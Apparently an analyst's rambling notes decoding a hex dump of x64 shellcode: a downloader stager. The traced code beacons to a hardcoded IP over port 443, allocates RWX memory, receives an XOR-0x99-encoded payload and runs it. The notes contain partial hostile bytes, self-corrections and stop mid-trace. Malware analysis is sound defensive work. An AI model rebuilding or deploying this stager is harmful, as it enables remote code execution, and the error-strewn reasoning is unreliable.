00000850: 66 6f 78 00 c7 45 b0 20 2f 34 38 66 c7 45 b4 2e
00000860: 30 88 5d b6 c7 45 98 0d 0a 0d 0a 88 5d 9c ff d6
At 0x74? `4c 8d 85 68 0d 00 00` sets r8="w64" but no call before overwritten? It will be used at 0x872? At 0x872, r8 is overwritten with rbp+0xb0. So "w64" maybe not used? Wait at 0x872 call rsi with r8=rbp+0xb0; "w64" no. Maybe a previous call? Let's search for `ff d6` (call rsi) from 0x740 to 0x872. I see only at 0x872 `ff d6`. So all the setup of r8/rdx/rcx at 0x744-0x764 seems unused, except for formats/fragments stored. The "w64" at rbp+0xd68 may be used later? At 0x7? It's a string "w64" maybe part of query. The code is heavily obfuscated with dead assignments? Hmm.
Wait maybe `ff d6` at 0x872 is actually call rsi, but before it, there was another call at 0x? At 0x744 after connect, there is no call until 0x872, so yes. The sequence after connect only initializes strings and then calls sprintf at 0x872. The first sprintf arguments are:
rcx = [rbp+0x1d0] (from 0x87e? let's see 0x872: ff d6; then 0x874 `4c 8d 8d 70 0d...` sets r9; 0x87b `4c 8d 85 b0...` r8; 0x882 `48 8d 55 40` rdx; 0x886 `48 8d 8d d0 01...` rcx; 0x88d `ff d6` call. Ah I mistakenly thought call at 0x872, but actually the call at 0x872 uses registers from before! Let's map:
At 0x760 `48 8d 8d 10 02 00 00` = lea rcx,[rbp+0x210].
At 0x767 `c7 45 a8...` format at rbp-0x58.
At 0x775 format at rbp+0x40.
...
At 0x86? `ff d6` at 0x872. So call at 0x872 uses rcx=rbp+0x210, rdx=rbp+0x40? Wait rdx set at 0x752 `48 8d 55 a8` = lea rdx,[rbp-0x58], not overwritten before 0x872? Let's check rdx after 0x752. At 0x767-0x86f only writes use `c7 45` etc, no rdx. So rdx=rbp-0x58 (format "=%s&fh="). rcx=rbp+0x210. r8 was set at 0x744 `lea r8,[rbp+0xd68]` = "w64". r9 was set? At 0x? There is `4c 8d 85 68...` only r8. r9 maybe from previous call to connect? Not initialized. Hmm at 0x872 call rsi with:
rcx=rbp+0x210
rdx=rbp-0x58 ("=%s&fh=")
r8=rbp+0xd68 ("w64")
r9 = whatever from previous call (connect?) possibly clobbered.
Stack args? none. This would output at 0x210 = "=w64&fh=<garbage>". But maybe r9 is set by `gethostbyname`? The code seems sloppy/obfuscated but likely intended.
Then after 0x872:
0x874 `4c 8d 8d 70 0d 00 00 lea r9,[rbp+0xd70]` ("ws_")
0x87b `4c 8d 85 b0 00 00 00 lea r8,[rbp+0xb0]` (host)
0x882 `48 8d 55 40 lea rdx,[rbp+0x40]` (format "%s&t=%s&")
0x886 `48 8d 8d d0 01 00 00 lea rcx,[rbp+0x1d0]`
0x88d `ff d6` call rsi
So the call at 0x872 and 0x88d are separate. Good. The first uses rcx 0x210, rdx format "=%s&fh=", r8 "w64", r9 stale. The second builds 0x1d0 = host + "&t=" + "ws_" + "&". Hmm.
Then 0x891 formats port into 0x190 "p=443 HT".
Then 0x8b6 formats Host header into 0x250.
Then UA parts.
Then at 0x989:
```
lea rax,[rbp+0x130]
lea r9,[rbp+0x150]
mov [rsp+0x20],rax
lea r8,[rbp+0x170]
lea rdx,[rsp+0x40] ; "%s%s%s"
lea rcx,[rbp+0x310]
call rsi
```
builds full UA at 0x310.
Then at 0x9a9:
```
lea rax,[rbp+0x190] ; "p=443 HT"
mov [rsp+0x28],rax
lea r9,[rbp+0x210] ; first output (maybe "=w64&fh=<x>")
lea rax,[rbp+0x1d0] ; host&t=ws_&
lea r8,[rbp+0x18] ; "GET /?a"
mov [rsp+0x20],rax
lea rdx,[rsp+0x30] ; "%s%s%s%s"
lea rcx,[rbp+0x570]
call rsi
```
Output at 0x570 = "GET /?a" + [0x210] + [0x1d0] + [0x190] = "GET /?a=w64&fh=<...>&t=ws_&p=443 HT"? Then next:
```
lea rax,[rbp+0x310] ; full UA
mov [rsp+0x28],rax
lea r9,[rbp+0x38] ; "\nHost: "
lea rax,[rbp+0x250] ; host header
lea r8,[rbp+0x28] ; "TP/1.1\r"
mov [rsp+0x20],rax
lea rdx,[rsp+0x30] ; "%s%s%s%s"
lea rcx,[rbp+0x370]
call rsi
```
Builds at 0x370 = [rbp+0x28] "TP/1.1\r" + [rbp+0x38] "\nHost: " + [rbp+0x250] host header + [rbp+0x310] full UA? Wait format args: r8 = rbp+0x28 ("TP/1.1\r"), r9=rbp+0x38 ("\nHost: "), arg3=rbp+0x250 (hostheader), arg4=rbp+0x310 (UA). Output = "TP/1.1\r\nHost: 165.154.205.34:443\r\nUser-Agent:..." Hmm missing leading "H" of HTTP? The request line at 0x570 ends with "HT" (from p=443 HT), then 0x370 starts "TP/1.1\r", so concatenating 0x570 + 0x370 yields "HTTP/1.1". Ah they split "HTTP/1.1" across two buffers: 0x570 ends "HT"; 0x370 starts "TP/1.1\r\n". Then:
- 0x570 contains "GET /?a=w64&fh=...&t=ws_&p=443 HT" (ends with HT)
- 0x370 contains "TP/1.1\r\nHost: <host>\r\n" + full UA? Wait Host header already ends \r\n. Then UA follows. Need final call.
Then at 0xa0a:
```
lea rax,[rbp+0x98] ; "\r\n\r\n"
lea r9,[rbp+0x370]
mov [rsp+0x20],rax
lea r8,[rbp+0x570]
lea rdx,[rsp+0x40] ; "%s%s%s" (at rsp+0x40, from 0x900: "%s%s" + "%s" = "%s%s%s")
lea rcx,[rbp+0x910]
call rsi
```
Final request at 0x910 = [0x570] + [0x370] + [rbp+0x98] ("\r\n\r\n") => complete HTTP request:
`GET /?a=<...>... HTTP/1.1\r\nHost: 165.154.205.34:443\r\nUser-Agent: ...\r\n\r\n`.
Great. The request line details:
0x570 = "GET /?a" + 0x210 (from "=%s&fh=" with "w64" and maybe stale) + 0x1d0 (host&t=ws_&) + 0x190 ("p=443 HT").
Let's identify 0x210 output. Call at 0x872:
rcx=0x210, rdx=rbp-0x58("=%s&fh="), r8=rbp+0xd68("w64"), r9=? Maybe r9 was set at 0x4? No. Wait before 0x872, r9 might be from connect call (garbage) but could be set by something at 0x744? `4c 8d 85 68 0d 00 00` only r8. Hmm maybe r9 is deliberately set earlier: at 0x? Search hex around 0x744: no `4c 8d 8d`. So r9 undefined. However maybe the function at rsi (sprintf) isn't sprintf but a custom `wsprintfA`? wsprintfA signature: int wsprintf(LPSTR lpOut, LPCSTR lpFmt, ...); same. R9 as second vararg. It may be garbage but format has only one %s, so r9 unused! Format "=%s&fh=" only one %s, so output 0x210 = "=w64&fh=". Great. So r9 irrelevant. Thus request line = "GET /?a" + "=w64&fh=" + host + "&t=ws_&" + "p=443 HT" = `GET /?a=w64&fh=<host>&t=ws_&p=443 HTTP/1.1`? Wait 0x1d0 output from format "%s&t=%s&": host + "&t=" + "ws_" + "&" = "165.154.205.34&t=ws_&". So request line becomes:
`GET /?a=w64&fh=165.154.205.34&t=ws_&p=443 HTTP/1.1`
Hmm weird: `fh` likely "flag host"? `t=ws_` maybe "type=windows"? `p=443` maybe port. It sends target IP in query. This looks like a check-in/beacon, perhaps "Windows Meterpreter reverse_https stager"? But request has no obvious shellcode response handling yet.
Wait the string "w64" and "ws_" maybe parts of "win64" / "winsock"? There are strings at rbp+0xd68 "w64" and rbp+0xd70 "ws_" and "34". Actually "w64" maybe parameter value; "ws_" prefix for something.
Then after building request:
At 0xa43:
```
xor r9d,r9d
lea rdx,[rbp+0x910] ; request buffer
mov r8d,0x400 ; length 1024
mov rcx,rdi ; socket
call [rbp+0xa8] ; API D = hash 0x5f38ebc2 (send)
```
So sends request with `send(socket, request, 1024, 0)`? Wait function `send(SOCKET s, const char *buf, int len, int flags)` args: rcx=socket, rdx=buf, r8=len, r9=flags. Yes r8=0x400 (1024), r9=0. Good. It sends 1024 bytes from stack, including the constructed request and trailing stack data? It may send fixed 1024 despite actual length, causing garbage. But buffer 0x910 may be 0x400 bytes; maybe request length less than 1024, but send sends full 1024. Could be intended.
Then:
```
4c 8b a5 90 00 00 00 mov r12,[rbp+0x90] ; API E = hash 0xe553a458, likely recv
33 c9 xor ecx,ecx
ba b8 0b 00 00 mov edx,0xbb8 ; 3000
41 b8 00 10 00 00 mov r8d,0x1000 ; 4096
44 8d 49 40 lea r9d,[rcx+0x40] ; 0x40
41 ff d4 call r12
```
This calls `recv`? Signature recv(socket, buf, len, flags): rcx should be socket! But here rcx=0, edx=0xbb8, r8=0x1000, r9=0x40. That's not recv. Maybe API E = `VirtualAlloc`? VirtualAlloc(lpAddress=0, dwSize=3000? no 0xbb8 = 3000, flAllocationType=0x1000, flProtect=0x40) -> `VirtualAlloc(NULL, 0xbb8, MEM_COMMIT=0x1000, PAGE_EXECUTE_READWRITE=0x40)`. Yes! Hash 0xe553a458 is VirtualAlloc. It allocates ~3000 bytes RWX. r12 = returned ptr; test rax; je end. Good.
Then:
```
8b f3 mov esi,ebx ; ebx=0? Actually after socket, ebx set? At 0x5a1 xor ebx. But then after send? Let's see at 0xa5? `8b f3` mov esi,ebx; ebx maybe? It was zero from 0x5a1, maybe not modified? But calls to sprintf preserve rbx; send? r12? Could be 0.
41 bd 01 00 00 00 mov r13d,1
8b de mov ebx,esi ; 0
45 33 c9 xor r9d,r9d
49 03 de add rbx,r14? Wait `49 03 de` = add rbx,r14. r14 = connect function pointer! That seems odd. Let's re-evaluate registers after VirtualAlloc: r14 is hash 0x6174a599 = connect function pointer. `49 03 de` adds r14 to rbx. If rbx=0, rbx=connect ptr. Then `45 8b c5 mov r8d,r13d` = 1; `48 8b d3 mov rdx,rbx` = pointer to connect (code); `48 8b cf mov rcx,rdi` = socket; `41 ff d7 call r15` (r15=hash 0x5fc8d902). This looks like `send`? Wait args: rcx=socket, rdx=??, r8=1, r9=0. That is `send(socket, buf, len=1, flags=0)`? But rdx = r14 (connect function pointer), not buffer. Hmm maybe I mis-decoded `49 03 de`. Could be `add rbx,r14` but r14 maybe not connect pointer? Let's verify r14 assignment: At 0x4b7 `mov r14, rax` after call hash 0x6174a599. Then at 0x73d `call r14` used for connect. So r14 points connect. Adding to rbx (0) makes rdx=connect pointer. Sending 1 byte from code of connect function? Maybe this is a **checksum marker**? Wait perhaps the instruction at 0xa70 `49 03 de` is actually `add rbx, r14`, yes.
Maybe I misread the layout. Let's inspect hex from 0xa40:
```
00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10 ...
```
Wait the line at 0xa60 in prompt: `00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10`? Let's re-read exact from user:
```
00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10 ...
```
Actually user text:
```
00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10
```
Wait original:
`00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10`? Let me look at user exact:
```
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10
00000a70: 00 00 44 8d 49 40 41 ff d4 4c 8b f0 48 85 c0
```
Wait I may have copied earlier from text: The user text at 0xa60 is:
`00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10`
Let's scroll up: Provided:
```
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10
00000a70: 00 00 44 8d 49 40 41 ff d4 4c 8b f0 48 85 c0
```
Hmm earlier I thought line 0xa60 was `00 00 00 33 c9 ba b8 0b 00 00 41 8d 49 40`? Need exact. Let's re-read the original prompt text carefully from above:
```
00000a30: 00 04 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b
00000a40: a5 90 00 00 00 33 c9 ba b8 0b 00 00 41 8d 49
00000a50: 40 41 ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00
00000a60: 00 8b f3 41 bd 01 00 00 00 8b de 45 33 c9 49
00000a70: 03 de 45 8b c5 48 8b d3 48 8b cf 41 ff d7 80
```
Wait yes! I see in the prompt:
```
00000a30: 00 04 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b
00000a40: a5 90 00 00 00 33 c9 ba b8 0b 00 00 41 8d 49
00000a50: 40 41 ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00
00000a60: 00 8b f3 41 bd 01 00 00 00 8b de 45 33 c9 49
00000a70: 03 de 45 8b c5 48 8b d3 48 8b cf 41 ff d7 80
...
```
I earlier misread. Let's align from 0xa30:
At 0xa30: `00 04 00 00`? Wait line 0xa30 from original:
`00000a30: 00 04 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b`
But previous line 0xa20:
`00000a20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`? No, let's get exact original block:
```
00000a10: 8d 8d 70 03 00 00 ff d6 48 8d 45 98 4c 8d
00000a20: 8d 70 03 00 00 48 89 44 24 20 4c 8d 85 70 05
00000a30: 00 00 48 8d 54 24 40 48 8d 8d 10 09 00 00 ff
00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 8d 49 40 41
00000a70: ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00 00 8b
00000a80: f3 41 bd 01 00 00 00 8b de 45 33 c9 49 03 de
00000a90: 45 8b c5 48 8b d3 48 8b cf 41 ff d7 80 3b 0a
00000aa0: 75 1e 8d 4e ff 42 80 3c 31 0d 75 14 8d 4e fe
...
```
Yes! I misread due to line grouping. Let's redo 0xa40 onward accurately:
From user:
```
00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 8d 49 40 41
00000a70: ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00 00 8b
00000a80: f3 41 bd 01 00 00 00 8b de 45 33 c9 49 03 de
00000a90: 45 8b c5 48 8b d3 48 8b cf 41 ff d7 80 3b 0a
00000aa0: 75 1e 8d 4e ff 42 80 3c 31 0d 75 14 8d 4e fe
00000ab0: 42 80 3c 31 0a 75 0a 8d 4e fd 42 80 3c 31 0d
00000ac0: 74 09 41 3b c5 7c 04 03 f0 eb c0 33 c9 ba 80
00000ad0: c3 c9 01 41 b8 00 10 00 00 44 8d 49 40 41 ff
00000ae0: d4 48 8b d8 48 85 c0 74 47 33 f6 41 be 00 40
00000af0: 06 00 48 8b d0 eb 1e 45 33 c0 85 c0 74 10 41
00000b00: 8d 0c 30 45 03 c5 80 34 19 99 44 3b c0 72 f0
00000b10: 03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b
00000b20: cf 41 ff d7 41 3b c5 7d d1 48 8b cf ff 95 98
00000b30: 00 00 00 ff d3 48 81 c4 18 0e 00 00 41 5f 41
...
```
Let's parse accurately from 0xa43:
At 0xa43? Need instruction boundaries. Starting at 0xa3f? Let's map from 0xa40:
0xa40 byte d6. Previous at 0xa3f maybe ff? Actually line 0xa30:
`00000a30: 00 00 48 8d 54 24 40 48 8d 8d 10 09 00 00 ff`
0xa30 bytes: 00 00 48 8d 54 24 40 48 8d 8d 10 09 00 00 ff
0xa40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
So at 0xa3f ff d6 = call rsi (final sprintf). At 0xa41 `45 33 c9` xor r9d,r9d
0xa44 `48 8d 95 10 09 00 00` lea rdx,[rbp+0x910]
0xa4b `41 b8 00 04 00 00` mov r8d,0x400
0xa51 `48 8b cf` mov rcx,rdi
0xa54 `ff 95 a8 00 00 00` call [rbp+0xa8] ; send
Then:
0xa5a `4c 8b a5 90 00 00 00` mov r12,[rbp+0x90] ; VirtualAlloc ptr
0xa61 `33 c9` xor ecx,ecx
0xa63 `ba b8 0b 00 00` mov edx,0xbb8
0xa68 `41 8d 49 40` lea r9d,[rcx+0x40] (0x40)
0xa6c `41 ff d4` call r12 ; VirtualAlloc(NULL,0xbb8,? r8?)
Wait r8 at this point? r8d was set to 0x400 for send; after send, r8 is caller-saved and may be clobbered. But for VirtualAlloc, r8 should be flAllocationType=0x1000. Is it set? At 0xa? Not visible. Wait there is missing `41 b8 00 10 00 00`? Let's check line 0xa5? The line has `... 4c 8b a5 90` then line 0xa60 `00 00 00 33 c9 ba b8 0b 00 00 41 8d 49 40 41`. No setting r8=0x1000. But maybe the bytes `41 8d 49 40` = lea r9d,[rcx+0x40], not r8. For VirtualAlloc, arguments: rcx=lpAddress=0; rdx=dwSize=0xbb8; r8=flAllocationType; r9=flProtect=0x40. r8 remains 0x400 from send, not 0x1000. Hmm VirtualAlloc with flAllocationType=0x400? MEM_RESET? Not likely. Maybe API is not VirtualAlloc; could be `recv`? Let's see call r12 = [rbp+0x90] = hash 0xe553a458. Could be `recv`? Args rcx=0 (socket 0 wrong), rdx=0xbb8 buffer address? Wait in recv, rdx should be buffer pointer, but 0xbb8 is value 3000, invalid. So not recv. Could be `VirtualAlloc` and r8 should be 0x1000 but the code set r8d=0x400 earlier for send and didn't reset; maybe I missed a `41 b8 00 10 00 00` at 0xa68? Let's look at bytes at 0xa68: `41 8d 49 40` = LEAs. No. But perhaps `send` call clobbers r8 and leaves it something; no guarantee. Could be a bug or the function expects MEM_RESERVE? Let's re-evaluate: Maybe the instruction at 0xa4b `41 b8 00 04 00 00` sets r8=0x400 for `send` (len). After send, at 0xa63 `ba b8 0b 00 00` sets edx=0xbb8; at 0xa68 `41 8d 49 40` lea r9d,[rcx+0x40] = 0x40; but r8 still 0x400. For VirtualAlloc, flAllocationType=0x400 is MEM_RESET (invalid for reserve/commit) maybe? Actually MEM_COMMIT=0x1000, MEM_RESERVE=0x2000, MEM_RESET=0x80000, MEM_TOP_DOWN=0x100000, MEM_WRITE_WATCH=0x200000, MEM_PHYSICAL=0x400000. 0x400 = MEM_RESET? Let's check: MEM_RESET = 0x00080000, MEM_RESET_UNDO = 0x1000000. 0x400 is MEM_LARGE_PAGES? Actually MEM_LARGE_PAGES = 0x20000000. Hmm 0x1000 commit, 0x2000 reserve, 0x4000 decommit, 0x8000 release, 0x10000 free, 0x20000? 0x400 maybe MEM_RESET? Not sure. But VirtualAlloc with 0x400 likely fails. Unless r8 retains 0x1000 from somewhere. Wait before send, r8=0x400; send may modify r8? Not guaranteed but function could preserve? Caller-saved so likely clobbered. But perhaps the compiler knows `send` returns and r8 not needed? Hmm.
Maybe API E (0xe553a458) is not VirtualAlloc but `recv`? Let's map call at 0xa6c: If it were `recv(socket=??)`, rcx=0 not socket. If `VirtualAlloc`, plausible with r8=0x400 maybe `MEM_COMMIT?` Maybe the actual bytes at 0xa68 are `41 b8 00 10 00 00`? Let's re-read user's line at 0xa50/0xa60 exactly from prompt:
```
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 8d 49 40 41
```
Yes r8 not set. But wait the `r8` value after send might still be 0x400; maybe VirtualAlloc's flAllocationType=0x400? Let's check MEM flags: MEM_COMMIT=0x1000, MEM_RESERVE=0x2000, MEM_DECOMMIT=0x4000, MEM_RELEASE=0x8000, MEM_FREE=0x10000, MEM_PRIVATE=0x20000, MEM_MAPPED=0x40000, MEM_RESET=0x80000, MEM_TOP_DOWN=0x100000, MEM_WRITE_WATCH=0x200000, MEM_PHYSICAL=0x400000, MEM_LARGE_PAGES=0x20000000, MEM_RESET_UNDO=0x1000000. 0x400 not valid. But perhaps r8 is actually set by `mov r8d,0x400` for send length and then the VirtualAlloc call expected 0x400? No.
Let's not dwell; maybe this is a decoy and the code later allocates at 0xacb with correct flags:
At 0xacb:
`33 c9` xor ecx,ecx
`ba 80 c3 c9 01` mov edx,0x1c9c380 (30,000,000)
`41 b8 00 10 00 00` mov r8d,0x1000
`44 8d 49 40` lea r9d,[rcx+0x40] = 0x40
`41 ff d4` call r12 (VirtualAlloc)
So second VirtualAlloc(NULL, 0x01c9c380 = 30,000,000, MEM_COMMIT, PAGE_EXECUTE_READWRITE). This likely is `VirtualAlloc` indeed. The first call with 0xbb8 and r8 maybe 0x400? Might be `VirtualAlloc` for a 3000-byte buffer with r8=0x1000? Perhaps r8 was set at 0xa4b to 0x400 (send len) and then maybe `send` does not alter r8? It can, but maybe compiler assumed? Hmm.
Wait at 0xa4b `41 b8 00 04 00 00` mov r8d,0x400. This could be for VirtualAlloc? No, send immediately follows at 0xa54. Then first VirtualAlloc might use `r8=0x400` unintentionally due to compiler reusing; but maybe `VirtualAlloc` accepts MEM_COMMIT=0x1000 only; 0x400 would fail. The code tests rax, je 0x0b1e? If fails, ends. If this always failed, program wouldn't work. So likely I misidentified API E or r8. Maybe API E is not VirtualAlloc but `recv` and rcx=0? Wait socket handle rdi used earlier; they set rcx=0 at 0xa61. If it's `recv(socket, buf, len, flags)`, rcx should be socket, but they set zero. Unless the call at 0xa6c is `RtlZeroMemory`? No.
Could API E be `VirtualAlloc`? Then `rcx=0` lpAddress, `rdx=0xbb8` size, `r8=0x400` (maybe MEM_COMMIT? no), `r9=0x40` PAGE_EXECUTE_READWRITE. This could be **not** VirtualAlloc but `VirtualProtect`? VirtualProtect(lpAddress=0, dwSize=0xbb8, flNewProtect=0x400? no, lpflOldProtect=&?) Not.
Maybe the instruction at 0xa4b is not `mov r8d,0x400` but `41 b8 00 04 00 00` yes. Could it be setting r8 for the first VirtualAlloc with `MEM_COMMIT` = 0x1000? No 0x400.
Let's examine the first call at 0xa6c more carefully: `41 ff d4` call r12 where r12 = [rbp+0x90] set from hash 0xe553a458. The result stored in r14 (`4c 8b f0`). Then test rax. Then:
```
8b f3 mov esi,ebx ; ebx maybe?
41 bd 01 00 00 00 mov r13d,1
8b de mov ebx,esi
45 33 c9 xor r9d,r9d
49 03 de add rbx,r14
45 8b c5 mov r8d,r13d
48 8b d3 mov rdx,rbx
48 8b cf mov rcx,rdi
41 ff d7 call r15
```
This is receive loop? Let's identify:
- r14 = buffer pointer from first VirtualAlloc (or maybe `recv` return?).
- `8b f3` mov esi,ebx. ebx likely 0 (total received).
- `41 bd 01` r13d=1.
- `8b de` mov ebx,esi (0)
- `49 03 de` add rbx,r14 -> rbx = buffer base + total received.
- `45 8b c5` mov r8d,r13d = 1
- `48 8b d3` mov rdx,rbx (buffer)
- `48 8b cf` mov rcx,rdi (socket)
- `41 ff d7` call r15 (hash 0x5fc8d902)
This is `recv(socket, buffer+total, 1, 0)`! Because args: rcx=socket, rdx=buf, r8=1, r9=0. So r15 = recv. Great. r14 = buffer pointer. So the first API E = ??? Actually r14 = return of call r12 at 0xa6c with args (0,0xbb8,?,0x40). If it is VirtualAlloc, fine. Then they receive one byte at a time into buffer? Wait r14 is the allocated buffer (3000 bytes). Then recv 1 byte. They loop reading chunks? Let's continue:
After recv:
`80 3b 0a` cmp byte [rbx],0x0a ; check if last byte is '\n'
`75 1e` jne 0xab? if not newline, continue loop
If newline:
`8d 4e ff` lea ecx,[rsi-1] ; index total-1
`42 80 3c 31 0d` cmp byte [rcx+r14],0x0d ; check previous byte CR
`75 14` jne ...
`8d 4e fe` lea ecx,[rsi-2]
`42 80 3c 31 0a` cmp byte [r14+rcx],0x0a ; check CRLFCRLF?
`75 0a` jne ...
`8d 4e fd` lea ecx,[rsi-3]
`42 80 3c 31 0d` cmp byte [r14+rcx],0x0d
`74 09` je 0xac? if found \r\n\r\n end header
`41 3b c5` cmp eax,r13d ; eax = recv return (1)
`7c 04` jl 0xac? if recv<1 break
`03 f0` add esi,eax ; total += recv
`eb c0` jmp 0xa80 (loop)
Then at 0xac?
`33 c9` xor ecx,ecx
`ba 80 c3 c9 01` mov edx,0x1c9c380 (30,000,000)
`41 b8 00 10 00 00` mov r8d,0x1000
`44 8d 49 40` lea r9d,[rcx+0x40] = 0x40
`41 ff d4` call r12 ; VirtualAlloc(NULL, 0x01c9c380, MEM_COMMIT, PAGE_EXECUTE_READWRITE)
`48 8b d8` mov rbx,rax ; new buffer
`48 85 c0` test rax
`74 47` je error/cleanup
`33 f6` xor esi,esi ; total received=0
`41 be 00 40 06 00` mov r14d,0x64000? Wait 00 40 06 00 = 0x64000 (409600) chunk size.
`48 8b d0` mov rdx,rax
`eb 1e` jmp 0xb0e? Actually to loop at 0xb0e? Let's see:
At 0xaf6 `48 8b d0` mov rdx,rax
0xaf9 `eb 1e` jmp 0xb19? Wait next 0xafb +0x1e = 0xb19. Then at 0xb19? Let's parse:
```
00000af0: 06 00 48 8b d0 eb 1e 45 33 c0 85 c0 74 10 41
00000b00: 8d 0c 30 45 03 c5 80 34 19 99 44 3b c0 72 f0
00000b10: 03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b
00000b20: cf 41 ff d7 41 3b c5 7d d1 48 8b cf ff 95 98
```
At 0xaf9 `eb 1e` from next 0xafb -> 0xb19. At 0xb19? Let's index:
0xaf0 06
0xaf1 00
0xaf2 48
0xaf3 8b
0xaf4 d0
0xaf5 eb
0xaf6 1e
0xaf7 45
0xaf8 33
0xaf9 c0
0xafa 85
0xafb c0
0xafc 74
0xafd 10
0xafe 41
0xaff 8d
0xb00 0c
0xb01 30
0xb02 45
0xb03 03
0xb04 c5
0xb05 80
0xb06 34
0xb07 19
0xb08 99
0xb09 44
0xb0a 3b
0xb0b c0
0xb0c 72
0xb0d f0
0xb0e 03
0xb0f f0
0xb10 8b
0xb11 d6
0xb12 48
0xb13 03
0xb14 d3
0xb15 45
0xb16 33
0xb17 c9
0xb18 45
0xb19 8b
0xb1a c6
0xb1b 48
0xb1c 8b
0xb1d cf
0xb1e 41
0xb1f ff
0xb20 d7
...
Hmm `eb 1e` at 0xaf5? Let's recalc line 0xaf0: `06 00 48 8b d0 eb 1e 45 33 c0 85 c0 74 10 41`
Offsets:
0xaf0=06
0xaf1=00
0xaf2=48
0xaf3=8b
0xaf4=d0
0xaf5=eb
0xaf6=1e
0xaf7=45
0xaf8=33
0xaf9=c0
0xafa=85
0xafb=c0
0xafc=74
0xafd=10
0xafe=41
So jmp at 0xaf5, next 0xaf7, +0x1e = 0xb15. At 0xb15 `45 33 c9`? Yes. So jump to 0xb15 (xor r9d,r9d), skipping the XOR decoding? Wait that would be weird. Perhaps this is an **encoding loop** that decodes received data before writing? Let's parse:
After second VirtualAlloc:
0xacb? Let's map from 0xac0:
Line 0xac0 from prompt: `74 09 41 3b c5 7c 04 03 f0 eb c0 33 c9 ba 80`
0xac0=74
0xac1=09
0xac2=41
0xac3=3b
0xac4=c5
0xac5=7c
0xac6=04
0xac7=03
0xac8=f0
0xac9=eb
0xaca=c0
0xacb=33
0xacc=c9
0xacd=ba
0xace=80
0xacf=c3
Line 0xad0: `c3 c9 01 41 b8 00 10 00 00 44 8d 49 40 41 ff`
0xad0=c3
0xad1=c9
0xad2=01
0xad3=41
0xad4=b8
0xad5=00
0xad6=10
0xad7=00
0xad8=00
0xad9=44
0xada=8d
0xadb=49
0xadc=40
0xadd=41
0xade=ff
Line 0xae0: `d4 48 8b d8 48 85 c0 74 47 33 f6 41 be 00 40`
0xae0=d4 call r12
0xae1=48
0xae2=8b
0xae3=d8 mov rbx,rax
0xae4=48
0xae5=85
0xae6=c0 test rax
0xae7=74
0xae8=47 je 0xb31? (next 0xae9+0x47=0xb30)
0xae9=33 f6 xor esi,esi
0xaeb=41 be 00 40 06 00 mov r14d,0x64000
0xaf1=48 8b d0 mov rdx,rax
0xaf4? Wait line 0xaf0 has 06 00 at 0xaf0-0xaf1? Let's realign:
Line 0xae0: `d4 48 8b d8 48 85 c0 74 47 33 f6 41 be 00 40`
bytes:
ae0 d4
ae1 48
ae2 8b
ae3 d8
ae4 48
ae5 85
ae6 c0
ae7 74
ae8 47
ae9 33
aea f6
aeb 41
aec be
aed 00
aee 40
Line 0xaf0: `06 00 48 8b d0 eb 1e 45 33 c0 85 c0 74 10 41`
ae f? 0xaf0=06, 0xaf1=00 forms imm32 0x00064000 for mov r14d at 0xaeb. Then 0xaf2=48,0xaf3=8b,0xaf4=d0 = mov rdx,rax. 0xaf5=eb,0xaf6=1e = jmp +0x1e -> 0xb15. So yes it jumps to 0xb15, skipping 0xaf7-0xb14? Let's see 0xaf7-0xb14:
0xaf7 45 33 c0 xor r8d,r8d
0xafa 85 c0 test eax,eax
0xafc 74 10 je 0xb0e
0xafe 41 8d 0c 30 lea ecx,[r8+rsi]
0xb02 45 03 c5 add r8d,r13d
0xb05 80 34 19 99 xor byte [rcx+rbx],0x99
0xb09 44 3b c0 cmp r8d,eax
0xb0c 72 f0 jb 0xafe
0xb0e 03 f0 add esi,eax
0xb10 8b d6 mov edx,esi
0xb12 48 03 d3 add rdx,rbx
0xb15 45 33 c9 xor r9d,r9d
0xb18 45 8b c6 mov r8d,r14d
0xb1b 48 8b cf mov rcx,rdi
0xb1e 41 ff d7 call r15 (recv)
...
Wait jump at 0xaf5 goes to 0xb15, skipping the XOR decode loop. That means the XOR decode at 0xaf7-0xb14 is dead code the first time? Actually perhaps not: `eb 1e` at 0xaf5 jumps to 0xb15 only after a **first chunk**? Then after recv, the loop at 0xb20 `41 3b c5 cmp eax,r13d; 7d d1 jge 0xaf5`? Let's see 0xb20 `d7`? Need parse:
At 0xb1e `41 ff d7` call r15 (recv)
0xb21 `41 3b c5` cmp eax,r13d (1)
